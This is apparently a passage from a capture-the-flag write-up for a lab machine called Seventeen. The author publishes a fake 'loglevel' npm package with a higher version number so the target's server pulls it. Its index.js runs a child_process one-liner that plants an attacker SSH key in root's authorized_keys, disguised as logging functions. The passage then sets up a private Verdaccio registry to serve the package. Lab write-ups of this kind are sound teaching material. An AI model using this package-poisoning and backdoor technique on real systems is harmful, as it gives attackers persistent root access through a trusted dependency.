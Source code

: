     {
      "name": "loglevel",
      "version": "2.0.1",
      "description": "",
      "main": "index.js",
      "scripts": {
        "test": "echo \"Error: no test specified\" && exit 1"
      },
      "author": "",
      "license": "ISC"
    }
    
    
    Is this OK? (yes)
    

The only one I can’t take the default on is name, which I’ll name `loglevel`,
as I want it to be included and called by the server on Seventeen, and I’ll up
the version beyond what is current on the [real
module](https://www.npmjs.com/package/loglevel), currently 1.8.0. The above
process creates a `package.json` file in the current directory.

I used the default of `index.js`, so I’ll create that file right next to
`package.json`:

    
    
    const cp = require("child_process")
    
    cp.exec("mkdir -p /root/.ssh; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys");
    
    function log(msg) {
        console.log(msg);
    }
    
    function debug(msg) {
        console.log(msg);
    }
    
    function warn(msg) {
        console.log(msg);
    }
    
    module.exports.log = log;
    

I don’t believe I need more than a one liner to do my malicious stuff, but
I’ll implement the `log` functions that are expected in the node application.

#### Verdaccio Container

To get a server running on my host, I’ll use a [Verdaccio Docker
container](https://verdaccio.org/docs/docker/). I’ll run `docker pull
verdaccio/verdaccio` (either as root, with `sudo`, or with my user in the
`docker` group) to get a copy of the container image.

I’ll run the container using the command from the instructions above, though
some experimentation shows that I need to run it with the environment variable
`VERDACCIO_PUBLIC_URL` pointing to my tun0 IP:
